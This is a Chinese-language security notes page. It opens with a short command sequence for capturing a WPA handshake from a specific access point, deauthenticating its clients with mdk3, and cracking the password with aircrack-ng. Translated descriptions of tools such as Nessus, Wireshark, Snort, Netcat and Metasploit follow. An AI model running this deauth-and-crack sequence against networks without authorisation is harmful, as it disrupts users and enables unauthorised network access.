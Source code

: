 ## WLAN 握手报爆破

```bash
sudo airmon-ng check kill 
sudo airmon-ng start wlan0 
sudo airodump-ng wlan0mon 
sudo airodump-ng -c 1 -w wlan --bssid BA:FE:35:F4:8A:12 wlan0mon 
sudo mdk3 wlan0mon d -s 120 -c 1 
sudo aircrack-ng -w passwd.txt  wlan-01.cap 
```

## 100个网络安全工具

### Nessus：最好的UNIX漏洞扫描工具

> Nessus 是最好的免费网络漏洞扫描器，它可以运行于几乎所有的UNIX平台之上。它不止永久升级，还免费提供多达11000种插件（但需要注册并接受EULA-acceptance–终端用户授权协议）。
> 它的主要功能是远程或本地（已授权的）安全检查，客户端/服务器架构，GTK（Linux下的一种图形界面）图形界面，内置脚本语言编译器，可以用其编写自定义插件，或用来阅读别人写的插件。Nessus 3 已经开发完成（now closed source），其现阶段仍然免费，除非您想获得最新的插件。

### Wireshark：网络嗅探工具

> Wireshark （2006年夏天之前叫做 Ethereal）是一款非常棒的Unix和Windows上的开源网络协议分析器。它可以实时检测网络通讯数据，也可以检测其抓取的网络通讯数据快照文件。可以通过图形界面浏览这些数据，可以查看网络通讯数据包中每一层的详细内容。
> Wireshark拥有许多强大的特性：包含有强显示过滤器语言（rich display filter language）和查看TCP会话重构流的能力；它更支持上百种协议和媒体类型；拥有一个类似tcpdump（一个Linux下的网络协议分析工具）的名为tethereal的的命令行版本。不得不说一句，Ethereal已经饱受许多可远程利用的漏洞折磨，所以请经常对其进行升级，并在不安全网络或敌方网络（例如安全会议的网络）中谨慎使用之。

### Snort：一款广受欢迎的开源IDS（Intrusion Detection System）工具

> 这款小型的漏洞检测和预防系统擅长于通讯分析和IP数据包登录（packet logging）。Snort除了能够进行协议分析、内容搜索和包含其它许多预处理程序，还可以检测上千种蠕虫病毒、漏洞、端口扫描以及其它可疑行为检测。Snort使用一种简单的基于规则的语言来描述网络通讯，以及判断对于网络数据是放行还是拦截，其检测引擎是模块化的。用于分析Snort警报的网页形式的引擎 Basic Analysis and Security Engine (BASE)可免费获得。
> 开源的Snort为个人、小企业、集团用户提供良好的服务。其母公司SourceFire提供丰富的企业级特性和定期升级以丰富其产品线。提供（必须注册）5天免费的规则试用，您也可以在Bleeding Edge Snort找到很多免费规则。

### Netcat：网络瑞士军刀

> 这个简单的小工具可以读和写经过TCP或UDP网络连接的数据。它被设计成一个可靠的可以被其它程序或脚本直接和简单使用的后台工具。同时，它也是一个功能多样的网络调试和检查工具，因为它可以生成几乎所有您想要的网络连接，包括通过端口绑定来接受输入连接。
> Netcat最早由Hobbit在1995年发布，但在其广为流传的情况下并没有得到很好的维护。现在nc110.tgz已经很难找了。这个简单易用的工具促使了很多人写出了很多其它Netcat应用，其中有很多功能都是原版本没有的。其中最有趣的是Socat，它将Netcat扩展成可以支持多种其它socket类型，SSL加密，SOCKS代理，以及其它扩展的更强大的工具。它也在本列表中得到了自己的位置（第71位）。
> 还有Chris Gibson’s Ncat，能够提供更多对便携设备的支持。其它基于Netcat的工具还有OpenBSD’s nc，Cryptcat，Netcat6，PNetcat，SBD，又叫做GNU Netcat。

### Metasploit Framework：黑掉整个星球

> 2004年Metasploit的发布在安全界引发了强烈的地震。没有一款新工具能够一发布就挤进此列表的15强（也就是说2000年和2003年的调查没有这种情况），更何况此工具更在5强之列，超过了很多广为流传的诞生了几十年的老牌工具。它是一个强大的开源平台，供开发、测试和使用恶意代码。这种可扩展的模型将负载控制、编码器、无操作生成器和漏洞整合在一起，使得Metasploit Framework成为一种研究高危漏洞的途径。
> 它自带上百种漏洞，还可以在online exploit building demo（在线漏洞生成演示）看到如何生成漏洞。这使得您自己编写漏洞变得更简单，它势必将提升非法shellcode代码的水平，扩大网络阴暗面。与其相似的专业漏洞工具，例如Core Impact和Canvas已经被许多专业领域用户使用。Metasploit降低了这种能力的门槛，将其推广给大众。
